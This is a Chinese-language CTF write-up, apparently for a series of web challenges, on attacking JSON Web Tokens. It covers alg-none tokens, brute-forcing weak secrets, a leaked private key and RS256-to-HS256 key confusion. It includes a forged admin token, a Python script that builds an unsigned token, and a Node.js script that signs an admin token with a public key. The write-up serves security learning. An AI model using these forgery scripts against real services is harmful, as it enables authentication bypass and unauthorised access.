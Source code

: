 @[toc]

##  JWT的简介

[JWT简要介绍 ](https://www.scuctf.com/ctfwiki/web/7.jwt/jwt简要介绍/)

[JSON Web Token 入门教程](https://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)

明确header,payload,signature三个东西的组成原理

明确jwt的作用和与session_id的区别所在。

base64URL的加密算法。

##  web354(无加密)

F12看到有个/admin的文件目录，进去之后访问不了

然后抓包发现一串cookie中的token，就是JWT

我们将

第一部分{"alg":"None","typ":"jwt"}base64编码后是eyJhbGciOiJOb25lIiwidHlwIjoiand0In0(去掉等号)
第二部分[{"sub":"admin"}]base64编码后是W3sic3ViIjoiYWRtaW4ifV0
所以把原来的jwt修改为eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoiYWRtaW4ifV0然后访问/admin/即可

这儿有个小知识

```
/admin，表示/admin.php
/admin/，表示admin下的文件目录
```

##  web346

签名算法被修改为none，从而实现任意的修改token

JWT如果将header中的alg设置为“None”,那么JWT中的内容没有加密，第三部分直接置空，所有的都可以访问，可以任意构造token来达到效果。

前面同样的操作，但是因为None，jwt.io不可以实现

我们用脚本

```python
import jwt

# payload
token_dict = {
  "iss": "admin",
  "iat": 1609236870,
  "exp": 1609244070,
  "nbf": 1609236870,
  "sub": "admin",
  "jti": "943d0b3237806659d2e205e42b319494"
}

headers = {
  "alg": "none",
  "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                       "",  # 进行加密签名的密钥
                       algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       headers=headers 
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                       )

print(jwt_token)

```

然后访问即可/admin/得到。

##   web347

弱口令密钥

听题目说是弱口令

将sub：user，改为sub：admin，绕过修改密钥为123456，即可得到token

访问/admin/，即可得到flag

##  web348

爆破密钥

使用爆破工具c-jwt-cracker

https://github.com/brendan-rius/c-jwt-cracker

爆破出来，得到密匙为aaab,其他跟上面的操作一样

##   web349

公私钥泄露

打开环境附件

```javascript
/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var privateKey = fs.readFileSync(process.cwd()+'//public//private.key');
  var token = jwt.sign({ user: 'user' }, privateKey, { algorithm: 'RS256' });
  res.cookie('auth',token);
  res.end('where is flag?');
  
});

router.post('/',function(req,res,next){
	var flag="flag_here";
	res.type('html');
	var auth = req.cookies.auth;
	var cert = fs.readFileSync(process.cwd()+'//public/public.key');  // get public key
	jwt.verify(auth, cert, function(err, decoded) {
	  if(decoded.user==='admin'){
	  	res.end(flag);
	  }else{
	  	res.end('you are not admin');
	  }
	});
});

```

发现可以通过url+/private.key和public.key得到公钥和私钥

然后将内容填入jwt.io，改admin，后面一样的

##  web350

密钥混淆攻击

该题是RS256和HS256的转换

关于RS的介绍

[密钥混淆攻击 - SCU-CTF HomePage (scuctf.com)](https://www.scuctf.com/ctfwiki/web/7.jwt/密钥混淆攻击/)

https://xz.aliyun.com/t/2338

nodejs运行exp

```js
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)

```

后面一样的

